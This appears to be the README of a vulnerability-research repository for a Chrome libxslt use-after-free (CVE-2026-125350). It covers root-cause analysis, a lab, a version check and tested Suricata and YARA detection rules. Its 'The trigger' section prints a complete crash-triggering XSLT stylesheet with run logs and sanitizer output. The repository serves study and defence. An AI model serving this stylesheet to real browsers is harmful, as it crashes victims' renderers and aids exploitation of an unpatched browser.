

<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/al4n4n/achilles-heel/stargazers"></a>
  
  
  
  
</p>

<p align="center">
  <a href="#check-non-destructive">Check</a> ·
  <a href="#the-trigger">PoC</a> ·
  <a href="#detection-rules">Detection</a> ·
  <a href="#capture">Capture</a> ·
  <a href="#evidence">Evidence</a> ·
  <a href="https://blog.al4n4n.com/CVE-2026-125350-Chrome-libxslt-UAF-Pattern-Cache-Reentrancy/">Write-up</a>
</p>

---

> **Disclaimer.** For learning and defense only. Run the lab and PoC only against targets you set up yourself. The detection rules are for education only; use them at your own risk. Everything here is provided as is, without warranty. Full text: [DISCLAIMER](../DISCLAIMER.md).

# CVE-2026-125350: Google Chrome libxslt use after free in the direct pattern match cache

**CWE-416** | Use after free | Google Chrome before 157.0.8103.50 | Renderer process, reached by opening a web page (AV:N, UI:R)

The CVE record says this bug "allowed a remote attacker to execute arbitrary code inside the sandbox via a crafted HTML page", and Google's advisory says an exploit exists in the wild. This repository demonstrates less: an XML document with an XSLT stylesheet, served over HTTP, crashes the sandboxed renderer of stock Google Chrome 157.0.8103.38 on Linux with no flag, does nothing to 157.0.8103.50, and gives an AddressSanitizer heap-use-after-free report on the Chromium revision just before the fix; code execution was not attempted. The trigger is not new, since its two shapes, `union` and `import`, follow the two cases of the crash test that the fix commit added to Chromium; what this repository adds is a lab of stock Chrome builds pinned by checksum, the raw output of every run, the sanitizer's allocation stacks for both cases and the reason in libxslt's code why each leaves a stale object in the slot, a check that does not trigger the bug, live captures, and tested Suricata and YARA rules.

**Author:** al4n4n (Dadb0d)<br>
**Write-up:** [blog.al4n4n.com/CVE-2026-125350-Chrome-libxslt-UAF-Pattern-Cache-Reentrancy/](https://blog.al4n4n.com/CVE-2026-125350-Chrome-libxslt-UAF-Pattern-Cache-Reentrancy/)<br>
**Fixed in:** Google Chrome 157.0.8103.50 (stable channel update of 2026-11-09)

---

## The bug

Chrome runs XSLT with a bundled libxslt inside the renderer process. A pattern with two predicates in a row, such as `book[p][q]`, is matched by a shortcut in `xsltTestCompMatchDirect()` (pattern.c, linked under References). libxslt evaluates `//book[p][q]` once per document and caches the resulting node-set object in a slot of the transform context that belongs to the pattern, together with the document it was computed for.

On entry the function copies the cached pointer into a local variable. If the node is in another document, it evaluates the pattern again with `xmlXPathEval()`, frees the old object through that local variable and stores the new one. The evaluation can run stylesheet code: a predicate that reads a global variable not yet computed makes libxslt evaluate the variable's body on the spot. If that body runs an `xsl:number` whose count pattern uses the same slot, the function is entered again, frees the cached object and installs another.

Back in the outer call the local variable still points at the freed object. `xmlXPathFreeObject()` reads its `type` field (the use after free), may free what its `nodesetval` field points to, and frees the object a second time. The fix re-reads the slot after the evaluation.

## Trigger conditions

1. XSLT is enabled. It is on by default in stable 157.0.8103.38 with compiled-in defaults and off in Chrome for Testing as shipped.
2. An `xsl:number` count pattern has two consecutive predicates, one of which reads a global variable.
3. A stale object is already in the pattern's slot when the outer call starts. `xsl:number` clears its count pattern's cache after every use, but two paths leave one behind, the same two that the fix commit's crash test uses:
   - **union**: `xsltCompMatchClearCache()` clears only the first alternative of `a | b`, so a direct-matched second alternative keeps its object.
   - **import**: slot numbers of template patterns in an imported stylesheet are shifted on import, those of `xsl:number` patterns are not. A count pattern in a second import then shares a slot with a template pattern of the first, whose cache is never cleared.
4. Three nodes sit in three documents, so that neither call sees the cached document: the source document and two loaded with `document()`.
5. The variable has not been computed before the predicate reads it. The PoC's stylesheets declare the outer variable first; the reverse order was not tested.

A single-predicate count pattern never enters the function: `poc.py --variant control` renders normally on the vulnerable build (`evidence/poc_stable-vuln_control.txt`).

## Tested on

| Product version | Host OS | Arch | Date (UTC) | Result |
|---|---|---|---|---|
| Google Chrome 157.0.8103.38, stable `.deb` (vulnerable) | Ubuntu 24.04.5, Docker 29.9.2 | x86_64 | 2026-11-11 | renderer crash, 20/20 per variant |
| the same build, started by the `setup.py` shipped here | same | x86_64 | 2026-11-13 | renderer crash, 1/1 (union) in remote mode and 1/1 in local mode |
| Google Chrome 157.0.8103.50, stable `.deb` (patched) | same | x86_64 | 2026-11-11 | no crash, 0/20 per variant |
| the same build, started by the `setup.py` shipped here | same | x86_64 | 2026-11-13 | no crash, one round (union) in each mode |
| Chrome for Testing 157.0.8103.38 with `--enable-features=XSLT` | same | x86_64 | 2026-11-11 | renderer crash, 20/20 per variant |
| Chrome for Testing 157.0.8103.50 with `--enable-features=XSLT` | same | x86_64 | 2026-11-11 | no crash, one round per variant |
| Chrome for Testing 157.0.8103.38 as shipped | same | x86_64 | 2026-11-11 | stylesheet never requested, XSLT is off |
| Chromium ASAN snapshot, main r1738200 (the fix commit's parent; reports 159.0.8148.0) | same | x86_64 | 2026-11-11 | heap-use-after-free report, both variants |
| Chromium ASAN snapshot, main r1738201 (the fix commit) | same | x86_64 | 2026-11-11 | no sanitizer report |

Affected per advisory: Google Chrome prior to 157.0.8103.50. Tested by us: the rows above.

## Lab deviations

| Deviation | Why | Effect on real-world exploitability |
|---|---|---|
| Headless mode (`--headless=new`) with a DevTools port on 127.0.0.1 | Lets `poc.py` open the URL (the user's click) and read the browser's verdict on its renderer | None on the bug: same renderer code and same libxslt. A victim needs no DevTools port; they open a link. The User-Agent reads `HeadlessChrome`. |
| Runs in a Docker container (Ubuntu 24.04 userland) with Docker's seccomp profile off (`seccomp=unconfined`) | Chrome needs to create user namespaces for its own sandbox; Docker's default profile and the host's AppArmor policy block that | None. Chrome's sandbox is on: renderers run with seccomp mode 2 and no `--no-sandbox` (`evidence/setup.txt`). |
| Stable `.deb` unpacked, not installed | No system install needed in a container | None; same binaries. |
| `--disable-background-networking --disable-component-update`, fresh profile on every start | Keeps the lab browser from contacting Google services | The browser runs with its compiled-in feature defaults. Google's live field-trial configuration is never fetched, and on a user's machine it can switch features, XSLT included, on or off. Not tested. |
| Chrome for Testing and ASAN targets only: `--enable-features=XSLT` | These builds turn XSLT off through their field-trial testing config | Required for those builds, not the default there. Not needed on stable, where XSLT is on by default. |
| ASAN targets are Chromium main-branch snapshots (r1738200, r1738201), not Chrome 157 | A sanitizer build names the functions; the two revisions differ by exactly the fix commit | Observation aid for the root cause only. No statement about Chrome 157 rests on them alone. |
| Memory and pid limits on each container | Guard against runaway browser processes on the lab host | None; the PoC needs neither. |
| Lab on a second machine, joined by ssh port-forwards (remote mode) | The laptop cannot run x86_64 Linux Chrome | None; the browser still fetches the documents over HTTP from 127.0.0.1:38080. Local mode gives the same result (`evidence/local_*.txt`). |
| Start-up switches `--no-first-run` and `--no-default-browser-check`, start page `about:blank`, profile directory `/tmp/profile` inside the container (`--user-data-dir`) | A fresh profile would begin with first-run and default-browser steps that nothing in a headless lab can answer. The profile is discarded with the container | None on the bug. The switches act in the browser process at start-up; the renderer, Blink and libxslt are the same code. The lab was not run without them. |
| `--enable-logging=stderr` | Sends Chrome's own log lines to the container's stderr, which `docker logs` shows. `setup.py` prints the last of them when a target exits during start | Observation only; it does not change which code handles a page. The lab was not run without it. |
| Docker `--network host` | Chrome binds its DevTools port to 127.0.0.1 only. In the host's network namespace that is the lab host's loopback, where the ssh forward (in local mode, `poc.py` itself) reaches it, and where the browser reaches the PoC's web server on 127.0.0.1:38080. No Docker port is published | None on the bug. Two consequences: every run fetched the documents from a loopback origin (`http://127.0.0.1:38080`), where a real attack serves them from a remote one, and that was not run; and the lab browsers are not network-isolated from the lab host, so any local user of that host can reach their DevTools ports. |
| Docker `--init`, `--user <uid>:<gid>` of the lab host's user, `HOME` on a bind mount (`state/<target>` in the lab directory), build mounted read-only at `/opt/target` | `--init` puts a minimal init at PID 1 to reap the processes Chrome leaves behind and pass signals on at teardown. A normal uid lets Chrome keep its sandbox (as root it demands `--no-sandbox`). `HOME` is where Chrome writes its Crashpad minidumps, so `setup.py --crash-report` reads them from the lab directory | None. All four are outside the browser, which runs as an ordinary unprivileged user, as on a desktop. |
| ASAN targets only: `ASAN_OPTIONS=symbolize=0:detect_leaks=0` | `symbolize=0`: the sandboxed renderer prints module and offset only, and `setup.py --crash-report` resolves them afterwards with the snapshot's own `llvm-symbolizer` (run with `docker exec` in the target's container, after the crash). `detect_leaks=0`: leak checking off, so the log holds only memory-error reports | Observation only. Neither option changes whether a heap use after free is detected or reported. The lab sets no other sanitizer option. |

## Files

| File | Purpose |
|---|---|
| `setup.py` | Starts and stops the lab: pinned, checksummed Chrome builds, headless, in Docker, on 127.0.0.1. A setup that fails after the targets were started stops them itself. Also prints a target's own crash report and records captures. |
| `check.py` | Tells whether a Chrome is affected, from its version and a harmless identity transform. It never sends a count pattern, so it cannot reach the bug. |
| `poc.py` | The one trigger. Serves the documents over HTTP, has the lab browser open the URL, and prints what the browser reports about its renderer. Options `--variant` and `--rounds`. |
| `capture/` | Three live pcaps (union, import, control) and a README with checksums. |
| `detection/` | `cve-2026-125350.rules` (Suricata), `cve-2026-125350.yar` (YARA), a README with results and triage, and `tests/` with the test suite, benign samples, `measure_limits.sh`, which measures the size limits of both rules, and `rev1_fixture.txt`, the superseded first revision of the Suricata rule, kept as a marked test fixture: not for deployment, and named so that no rules loader picks it up. |
| `evidence/` | Raw output of every run, with `INDEX.md` mapping each file to its command and claim. `evidence/detection/` holds the rule test runs. |
| `README.md` | This file. |
| `LICENSE` | MIT with an attribution clause. |
| `poster.png` | Social preview image. |
| `.gitignore` | Keeps lab state and downloads out of the repository. |

## Repository structure

```
CVE-2026-125350/
├── capture/                                    live pcaps of the attack and a control
│   ├── control.pcap
│   ├── exploit-import.pcap
│   ├── exploit.pcap
│   └── README.md
├── detection/                                  Suricata and YARA rules with their tests
│   ├── tests/
│   │   ├── benign/
│   │   │   ├── report-extra.xml
│   │   │   ├── report-lib.xsl
│   │   │   ├── report.xml
│   │   │   ├── report.xsl
│   │   │   ├── table.xml
│   │   │   ├── table.xsl
│   │   │   ├── toc.xml
│   │   │   └── toc.xsl
│   │   ├── yara/
│   │   │   └── Dockerfile
│   │   ├── benign.pcap
│   │   ├── benign_traffic.py
│   │   ├── files_to_pcap.py
│   │   ├── measure_limits.sh                   measures the size limits of both rules
│   │   ├── pcap_http.py
│   │   ├── rev1_fixture.txt                    test fixture, not a rule to deploy
│   │   └── run_tests.sh
│   ├── cve-2026-125350.rules
│   ├── cve-2026-125350.yar
│   └── README.md
├── evidence/                                   raw output of every run
│   ├── detection/                              rule test runs
│   │   ├── benign_check_stable-vuln.txt
│   │   ├── benign_traffic_stable-vuln.txt
│   │   ├── measure_limits.txt
│   │   ├── measure_limits_linux.txt
│   │   ├── run_tests_linux_run1.txt
│   │   ├── run_tests_linux_run2.txt
│   │   ├── run_tests_linux_run3.txt
│   │   ├── run_tests_macos_run1.txt
│   │   ├── run_tests_macos_run2.txt
│   │   └── run_tests_macos_run3.txt
│   ├── check_asan-patched.txt
│   ├── check_asan-vuln.txt
│   ├── check_cft-noflag.txt
│   ├── check_cft-patched.txt
│   ├── check_cft-vuln.txt
│   ├── check_stable-patched.json
│   ├── check_stable-patched.txt
│   ├── check_stable-vuln.json
│   ├── check_stable-vuln.txt
│   ├── crash_asan-patched.txt
│   ├── crash_asan-vuln.txt
│   ├── crash_cft-patched.txt
│   ├── crash_cft-vuln.txt
│   ├── crash_stable-patched.txt
│   ├── crash_stable-vuln.txt
│   ├── failure_step6_setup.txt
│   ├── INDEX.md                                which file backs which claim
│   ├── local_check_stable-patched.txt
│   ├── local_check_stable-vuln.txt
│   ├── local_crash_stable-patched.txt
│   ├── local_crash_stable-vuln.txt
│   ├── local_poc_stable-patched_import.txt
│   ├── local_poc_stable-patched_union.txt
│   ├── local_poc_stable-vuln_import.txt
│   ├── local_poc_stable-vuln_union.txt
│   ├── local_r2_crash_stable-vuln.txt
│   ├── local_r2_poc_stable-patched_union.txt
│   ├── local_r2_poc_stable-vuln_union.txt
│   ├── local_r2_setup.txt
│   ├── local_r2_teardown.txt
│   ├── local_setup.txt
│   ├── local_teardown.txt
│   ├── longpath_check_stable-patched.txt
│   ├── longpath_check_stable-vuln.txt
│   ├── longpath_crash_stable-patched.txt
│   ├── longpath_crash_stable-vuln.txt
│   ├── longpath_poc_stable-patched_union.txt
│   ├── longpath_poc_stable-vuln_union.txt
│   ├── longpath_setup.txt
│   ├── longpath_teardown.txt
│   ├── poc_asan-patched_import.txt
│   ├── poc_asan-patched_union.txt
│   ├── poc_asan-vuln_import.txt
│   ├── poc_asan-vuln_union.txt
│   ├── poc_cft-noflag_union.txt
│   ├── poc_cft-patched_import.txt
│   ├── poc_cft-patched_union.txt
│   ├── poc_cft-vuln_import.txt
│   ├── poc_cft-vuln_import_rounds20.txt
│   ├── poc_cft-vuln_union.txt
│   ├── poc_cft-vuln_union_rounds20.txt
│   ├── poc_stable-patched_import.txt
│   ├── poc_stable-patched_import_rounds20.txt
│   ├── poc_stable-patched_union.txt
│   ├── poc_stable-patched_union_rounds20.txt
│   ├── poc_stable-vuln_control.txt
│   ├── poc_stable-vuln_import.txt
│   ├── poc_stable-vuln_import_rounds20.txt
│   ├── poc_stable-vuln_union.txt
│   ├── poc_stable-vuln_union_rounds20.txt
│   ├── rerun_setup_first.txt
│   ├── rerun_setup_second.txt
│   ├── rerun_teardown.txt
│   ├── setup.txt
│   └── teardown.txt
├── check.py                                    tests for the bug without triggering it
├── LICENSE
├── poc.py                                      the one trigger
├── poster.png
├── README.md
└── setup.py                                    lab: vulnerable and patched targets
```

## Usage

Prerequisites:

| Need | Detail |
|---|---|
| Lab host | Linux x86_64 with Docker, `curl` and `sha256sum`. From any other machine (mine is an arm64 Mac) add `--ssh user@host` to the first command: the lab then runs on that host and `setup.py` opens ssh port-forwards, so every command below still talks to 127.0.0.1. The forwards' control socket is kept outside the clone, in a private directory `/tmp/cve-2026-125350-<uid>-<8 hex digits>/` that `--down` removes, so the depth of the clone directory does not matter (run from a path of 145 characters, `evidence/longpath_setup.txt`). |
| Python | `python3`, standard library only. My machines have Python 3.11.8 and 3.12.3. |
| Disk and memory | The lab directory is about 18 GB on my host with all three target groups. Each container is capped at 4 GB of memory, 8 GB for ASAN. |
| Ports | 39222 to 39228 and 38080 free on 127.0.0.1. Nothing listens on a LAN address. |
| Network | For the first run. Every download is pinned and checked against a sha256. The first run builds the lab image with packages from Ubuntu's apt snapshot service (snapshot.ubuntu.com), so that build needs the service reachable. |

```
git clone https://github.com/al4n4n/achilles-heel.git
cd achilles-heel/CVE-2026-125350
```

| Step | Command | Expected output |
|---|---|---|
| Start the lab | `python3 setup.py` | Each target prints its version; ends with `Lab is up.` and `setup.py: done`. The first image build takes about ten minutes. |
| If the start fails after the targets were started | nothing to run | `setup.py` stops them itself: the error, then `setup.py: setup did not finish; stopping what this run started` and `leftovers after teardown: none`, exit 2. Shown for one way of failing, a local port taken by another process at step 6 (`evidence/failure_step6_setup.txt`). |
| Check, vulnerable | `python3 check.py --target 127.0.0.1:39222` | `VERDICT: VULNERABLE (confidence: high)`, exit 0 |
| Check, patched | `python3 check.py --target 127.0.0.1:39223` | `VERDICT: NOT VULNERABLE (confidence: high)`, exit 1 |
| Trigger | `python3 poc.py --target 127.0.0.1:39222` | `RESULT: renderer crash reported by the target in 1/1 rounds -> exit 0` |
| Target's crash report | `python3 setup.py --crash-report stable-vuln` | A minidump with `ptype=renderer  ver=157.0.8103.38` and `SIGTRAP` |
| Second variant | `python3 poc.py --target 127.0.0.1:39222 --variant import` | The same `RESULT` line; the crash report gains a `SIGSEGV` minidump |
| Negative control | `python3 poc.py --target 127.0.0.1:39223` | `RESULT: no renderer crash in 1/1 rounds -> exit 1` |
| Repeat | `python3 poc.py --target 127.0.0.1:39222 --rounds 20` | `RESULT: renderer crash reported by the target in 20/20 rounds -> exit 0` |
| Sanitizer report (optional, two 2.4 GB downloads) | `python3 setup.py --targets stable,cft,asan`, then `python3 poc.py --target 127.0.0.1:39226 --timeout 120`, then `python3 setup.py --crash-report asan-vuln` | `AddressSanitizer: heap-use-after-free` in `xmlXPathFreeObject` |
| Rule tests (Docker, no lab) | `bash detection/tests/run_tests.sh` | 40 lines starting `PASS`, then `RESULT: all checks gave the expected number`. The run downloads three pinned, checksummed test inputs and writes its work files to `.lab/detect-run/` in the clone. |
| Limit measurement (Docker, no lab) | `bash detection/tests/measure_limits.sh` | Date, host and tool versions; `MATCH` up to `padding=4085` in the first block and up to `alternatives=817`, `no match` after; `3/3` on both Suricata versions at every size up to `alternatives=7500` in both saved runs; ends with a `run finished` line. The lines above 7500 differ between runs and hosts. |
| Teardown | `python3 setup.py --down` | `leftovers after teardown: none` |
| Teardown and delete downloads | `python3 setup.py --down --purge` | `lab directory removed (downloads included)` (output of a local-mode run) |

## Check (non-destructive)

`check.py` reads the browser's version and runs an identity transform with no `xsl:number`. Vulnerable target (`evidence/check_stable-vuln.txt`):

```
[*] CVE-2026-125350 check, first fixed version 157.0.8103.50
[*] browser reports: Chrome/157.0.8103.38
[*] XSLT probe (harmless identity transform): transformed:probe-ok
VERDICT: VULNERABLE (confidence: high) - version 157.0.8103.38 is below the first fixed version 157.0.8103.50, and XSLT runs in this browser (harmless transform returned <probe-ok/>) -> exit 0
```

Patched target (`evidence/check_stable-patched.txt`):

```
[*] CVE-2026-125350 check, first fixed version 157.0.8103.50
[*] browser reports: Chrome/157.0.8103.50
[*] XSLT probe (harmless identity transform): transformed:probe-ok
VERDICT: NOT VULNERABLE (confidence: high) - version 157.0.8103.50 is at or above the first fixed version 157.0.8103.50 -> exit 1
```

It answers UNKNOWN for build numbers between 8103 and 8148 outside the 157 release branch, and knows only Chrome and Chromium version strings.

## The trigger

`poc.py` plays the attacker's web server and the user's click. It uses the DevTools port only to open the URL and to read what the browser says about its renderer; the payload travels over HTTP like any page. The whole run against stock Chrome 157.0.8103.38, union variant (`evidence/poc_stable-vuln_union.txt`):

```
[*] 2026-11-11 09:58:00 UTC
[*] target browser (its own answer): Chrome/157.0.8103.38, protocol 1.3
    Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/157.0.0.0 Safari/537.36
[*] attacker web server on http://127.0.0.1:38080/, variant 'union'
[*] stylesheet served as sheet.xsl:
      <?xml version="1.0"?>
      <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
        <xsl:output method="html"/>
        <xsl:variable name="outer">
          <xsl:apply-templates select="/shelf/book" mode="tally"/>
          <xsl:apply-templates select="document('second.xml')/shelf/book" mode="tally"/>
        </xsl:variable>
        <xsl:variable name="inner">
          <xsl:apply-templates select="document('third.xml')/shelf/book" mode="tally"/>
          <xsl:text>.</xsl:text>
        </xsl:variable>
        <xsl:template match="book" mode="tally">
          <xsl:number level="any" count="nothing | book[@lang = 'b'][string($inner)]"/>
        </xsl:template>
        <xsl:template match="/">
          <html><body><p id="result">transform finished:<xsl:value-of select="$outer"/></p></body></html>
        </xsl:template>
      </xsl:stylesheet>
[*] round 1/1
    [victim] opens http://127.0.0.1:38080/1-209b43d6/catalog.xml
    [http] GET /1-209b43d6/catalog.xml      -> 200, 106 bytes
    [http] GET /1-209b43d6/sheet.xsl        -> 200, 787 bytes
    [http] GET /1-209b43d6/second.xml       -> 200, 32 bytes
    [http] GET /1-209b43d6/third.xml        -> 200, 32 bytes
    [target] RENDERER CRASHED. Events sent by the browser:
      Inspector.targetCrashed {}
      Target.targetCrashed {"errorCode": 132, "status": "crashed", "targetId": "76DEDCF235446491B8429D9E3E6BB773"}
RESULT: renderer crash reported by the target in 1/1 rounds -> exit 0
```

The `[http]` lines are the target's own requests. The renderer's Crashpad reports for this run and the import run (`evidence/crash_stable-vuln.txt`):

```
target stable-vuln: Crashpad minidumps written by this browser: 2

minidump state/stable-vuln/.config/google-chrome/Crash Reports/completed/b553ac31-9fa4-44ab-8c8b-9235a2d56281.dmp (128496 bytes, written 2026-11-11 09:58:28 UTC)
  process:   ptype=renderer  ver=157.0.8103.38  prod=Chrome_Linux  plat=Linux
  exception: SIGTRAP (signal 5, si_code 128), fault address 0x0
  crashing thread, frame-pointer chain (module+offset; this build ships no symbols):
    #0  0x00005781873ee452 chrome+0xc4fb452
    #1  0x00005781873ee5e4 chrome+0xc4fb5e4
[...]
minidump state/stable-vuln/.config/google-chrome/Crash Reports/completed/14ba42fa-9681-48f7-a000-35315be46779.dmp (148864 bytes, written 2026-11-11 09:58:54 UTC)
  process:   ptype=renderer  ver=157.0.8103.38  prod=Chrome_Linux  plat=Linux
  exception: SIGSEGV (signal 11, si_code 128), fault address 0x0
  crashing thread, frame-pointer chain (module+offset; this build ships no symbols):
    #0  0x000057818a8b4c8d chrome+0xf9c1c8d
    #1  0x000057818a8b36dc chrome+0xf9c06dc
[...]
```

The stock binaries ship no symbols, so those frames are module offsets. Function names come from the sanitizer build (`evidence/crash_asan-vuln.txt`, report 1 of 2):

```
--- report 1 of 2 ---
==1==ERROR: AddressSanitizer: heap-use-after-free on address 0x77f7a0252710 at pc 0x55df85719527 bp 0x7ffd1a2dc390 sp 0x7ffd1a2dc388
READ of size 4 at 0x77f7a0252710 thread T0 (chrome)
    #0 0x55df85719526 in xmlXPathFreeObject third_party/libxml/src/xpath.c:4233:15
    #1 0x55df96db0a44 in xsltTestCompMatchDirect third_party/libxslt/src/libxslt/pattern.c:585:3
[...]
0x77f7a0252710 is located 0 bytes inside of 72-byte region [0x77f7a0252710,0x77f7a0252758)
freed by thread T0 (chrome) here:
    #0 0x55df66798258 in __interceptor_free ??:0:0
    #1 0x55df96db0a44 in xsltTestCompMatchDirect third_party/libxslt/src/libxslt/pattern.c:585:3
[...]
    #11 0x55df96de9f82 in xsltEvalGlobalVariable third_party/libxslt/src/libxslt/variables.c:1285:6
    #12 0x55df96dee114 in xsltXPathVariableLookup third_party/libxslt/src/libxslt/variables.c:1991:8
[...]
    #23 0x55df8573bfc0 in xmlXPathEval third_party/libxml/src/xpath.c:12074:5
    #24 0x55df96db08b0 in xsltTestCompMatchDirect third_party/libxslt/src/libxslt/pattern.c:565:12
[...]
SUMMARY: AddressSanitizer: heap-use-after-free in xmlXPathFreeObject third_party/libxml/src/xpath.c:4233:15
```

Read the "freed by" stack from the bottom: the outer call is inside `xmlXPathEval()` at pattern.c:565, the variable lookup runs the global variable's body, and a nested `xsltTestCompMatchDirect()` frees the object at line 585. The read at the top is the outer call, back from the evaluation with its stale pointer.

This report comes from a Chromium main-branch ASAN snapshot (r1738200), not from Chrome 157; lines 565 and 585 are the same there as at tag 157.0.8103.38. On stock 157 the crash is tied to this function by the negative control below and by the ASAN pair, whose two revisions differ by exactly the fix commit.

## Negative control

The same `poc.py` against Chrome 157.0.8103.50 (`evidence/poc_stable-patched_union.txt`). The browser fetches the same documents, finishes the transform and returns its text:

```
[*] 2026-11-11 09:59:26 UTC
[*] target browser (its own answer): Chrome/157.0.8103.50, protocol 1.3
[...]
[*] round 1/1
    [victim] opens http://127.0.0.1:38080/1-6610de7a/catalog.xml
    [http] GET /1-6610de7a/catalog.xml      -> 200, 106 bytes
    [http] GET /1-6610de7a/sheet.xsl        -> 200, 787 bytes
    [http] GET /1-6610de7a/second.xml       -> 200, 32 bytes
    [http] GET /1-6610de7a/third.xml        -> 200, 32 bytes
    [http] GET /favicon.ico                 -> 404, 10 bytes
    [target] no crash. Page loaded; the renderer is alive and returns the transformed text: 'transform finished:01'
RESULT: no renderer crash in 1/1 rounds -> exit 1
```

That browser wrote no crash report, and the ASAN build at the fix commit printed no report (`evidence/crash_stable-patched.txt`, `evidence/crash_asan-patched.txt`):

```
target stable-patched: Crashpad minidumps written by this browser: 0
target asan-patched: AddressSanitizer reports in the container's stderr (docker logs): 0
```

## Reliability

The trigger is deterministic, so `--rounds` defaults to 1. Twenty rounds per variant gave 20/20 crashes on stable and on Chrome for Testing 157.0.8103.38, and 0/20 on stable 157.0.8103.50 (`evidence/poc_*_rounds20.txt`).

## Downstream impact and mitigation

The advisory names Google Chrome only and gives no figures on scale. Chrome for Testing 157.0.8103.38 ships with XSLT off, so a page cannot reach the bug there (`evidence/poc_cft-noflag_union.txt`).

The fix is the update to 157.0.8103.50. Chrome also defines an enterprise policy, `XSLTEnabled`; its definition at tag 157.0.8103.38 (under References) says that Disabled makes XSLT unavailable. I read the definition and did not test the policy.

## Detection rules

| Rule | Type | Detects | Prerequisites |
|---|---|---|---|
| [`detection/cve-2026-125350.rules`](detection/cve-2026-125350.rules), sids 1125349, 1125351 and 1125350 | Suricata | An HTTP response body that is an XSLT stylesheet with an `xsl:number` whose `count` or `from` pattern has two predicates in a row and reads a variable. The three sids are a flowbit chain: 1125349 marks a flow that serves the XSLT namespace URI, 1125351 marks one that serves the word `number`, and neither alerts; 1125350 alerts on the attribute pattern in a flow with both marks. The namespace declaration, the element name and the attribute may then sit in different inspection windows of a large stylesheet. The marks are per connection, not per file | TLS inspection for HTTPS; HTTP response body inspection (on by default), with the stylesheet inside `response-body-limit` (100kb by default). Necessary, not sufficient: see Limits below |
| [`detection/cve-2026-125350.yar`](detection/cve-2026-125350.yar), `EXPL_Chrome_CVE_2026_125350_Nov26` | YARA | The same stylesheet as a file | The file in clear text, after TLS and content decoding. Necessary, not sufficient: see Limits below |
| none | Sigma | Not shipped: a stock Chrome leaves only a Crashpad minidump with module offsets, and a renderer crash is not specific to this bug | |

`bash detection/tests/run_tests.sh` runs 40 checks; all gave the expected number in three consecutive runs on macOS arm64 and three on the Linux x86_64 lab host (`evidence/detection/run_tests_*.txt`):

| Input | Kind of input | Suricata 8.0.8 | Suricata 7.0.17 | YARA 4.5.0 |
|---|---|---|---|---|
| The rule files | validator | `-T` passes, no warnings | `-T` passes, no warnings | compiles, no warnings |
| `capture/exploit.pcap` (union) | live capture, renderer crashed | 1 alert | 1 alert | 1 match (`sheet.xsl`) |
| `capture/exploit-import.pcap` (import) | live capture, renderer crashed | 1 alert | 1 alert | 1 match (`tally.xsl`) |
| `capture/control.pcap` | live capture, page rendered | 0 alerts | 0 alerts | 0 matches |
| `detection/tests/benign.pcap`, three ordinary stylesheets rendered by Chrome 157.0.8103.38 | live capture | 0 alerts | 0 alerts | 0 matches |
| libxslt 1.1.43, 631 stylesheets | public download; files, and a synthetic pcap of them | 0 alerts | not run | 0 matches |
| DocBook XSL 1.79.2, 1128 stylesheets | public download; files, and a synthetic pcap of them | 2 alerts | not run | 2 matches |
| The five regression stylesheets of the fix commit | public download; files, and a synthetic pcap of them. The evidence holds no lab run of them | 2 alerts | 2 alerts | 2 matches |
| `sheet.xsl` from `capture/exploit.pcap`, re-framed with gzip and chunked coding | synthetic pcap | 1 alert | 1 alert | not applicable |
| `sheet.xsl` with a 60 kB comment after the root start tag, between the namespace declaration and the `xsl:number`, in 1400-byte TCP segments | synthetic pcap | 1 alert | 1 alert | 1 match |
| The same pcap against `detection/tests/rev1_fixture.txt`, the first revision of the Suricata rule | synthetic pcap; shows that the check above tells the revisions apart | 0 alerts, after 1 alert on `capture/exploit.pcap` shows that the fixture loads | not run | not run |
| `sheet.xsl` with 8 kB of white space between the element name and `count`, in 1400-byte TCP segments | synthetic pcap | 1 alert | 1 alert | 1 match |
| `sheet.xsl` with 700 union alternatives in the `count` value, 3,533 bytes from `count=` to `][`, in 1400-byte TCP segments | synthetic pcap | 1 alert | 1 alert | 1 match |

**Limits.** The prerequisites in the first table are necessary, not sufficient. Each rule has to cover one stretch of the `xsl:number` start tag in a single match, and a long stretch can hide the trigger. White space between the element name and the keyword (`count` or `from`) lies outside that stretch; the suite covers it at 8 kB. The sizes are from `detection/tests/measure_limits.sh`, run once on each host (`evidence/detection/measure_limits*.txt`):

| | Suricata rules | YARA rule |
|---|---|---|
| The stretch one match has to span | From the keyword through any white space around the equals sign and the opening quote, through the attribute value, to `][` | The same start, to the last character the regex needs: the `[` of the second predicate, or the `$` when the variable reference comes after the predicates |
| The limit | Suricata's inspection window, when the body arrives in 1400-byte TCP segments | 4,096 bytes |
| Every saved run matched up to | 7,500 five-byte union alternatives in the `count` value, about 37.5 kB from keyword to `][`: 3 runs of 3 on Suricata 8.0.8 and on 7.0.17, on both hosts, at each size tested (700, 2,000, 4,000, 6,000, 7,000 and 7,500) | 817 five-byte union alternatives, on both hosts |
| Above that | Some runs miss. Treat detection above 7,500 as unreliable | No match at 818 alternatives |
